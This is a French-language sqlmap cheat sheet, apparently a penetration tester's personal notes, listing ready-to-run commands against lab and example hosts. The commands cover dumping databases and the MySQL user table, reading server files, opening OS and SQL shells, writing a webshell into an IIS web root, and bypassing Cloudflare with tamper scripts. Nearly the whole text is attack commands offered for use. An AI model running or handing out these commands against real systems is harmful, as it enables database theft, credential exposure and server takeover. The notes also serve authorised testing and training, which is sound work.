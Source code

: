 # sqlmap

## pratique:

1. Faire un “copy to file” de la requete depuis burp ou Zap (avec headers+data)
2. sqlmap -r <fichier> -a --batch


## en GET

```sh
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```

## en POST

```sh
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
```  

## lister les tables:

```sh
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql --tables
```

## lister les tables d'une base

```sh
python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics
```

## lister les colonne d'une tables:

```sh
python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users
```

## dumper une seule table:

```sh
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql -D 'mysql' -T 'user' --dump
```

## tout dumper

```sh
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump-all
```

## dumper la base courante 

```sh
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump
```

## from and by Burp 

```sh
--proxy=http://127.0.0.1:8080
```

## sqlmap crawl 

```sh
sqlmap -u http://10.10.10.10 --crawl=1
```

## sqlmap shell 

```sh
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell
```

## upload webshell

```sh
sudo sqlmap -r sqli_search_productName --file-write=webshell.php --file-dest=c:/inetpub/wwwroot/webshell.php --batch
```

## lire un fichier:

```sh
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --file-read=/opt/lampp/htdocs/index.php
```

## checker les privs:

```sh
sqlmap -u 192.168.1.124/sqli/Less-1/?id=1 --privileges
```

## proxy

```sh
--temper pour le bypass de proxy
```

## Commande SQL:

```sh
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --dbms=mysql --sql-shell

sql-shell> SELECT * FROM blogs
```

## sous windows:

1. télécharger le [projet](https://github.com/sqlmapproject/sqlmap) et lancer: python ./sqlmap.py

```powershell
python.exe .\sqlmap.py -r ..\VLA-auth-login.raw -a --batch
```

## cloudflare bypaass

```powershell
python.exe .\sqlmap.py -r .\question.raw --batch tamper="between,randomcase,space2comment" --random-agent
```

## Quick and Dirty A NE PAS FAIRE EN PROD

```Powershell
python.exe .\sqlmap.py -r ..\VLA-auth-login.raw -a --batch --level 5 --risk 3 --proxy=http://127.0.0.1:8080 --flush-session
```
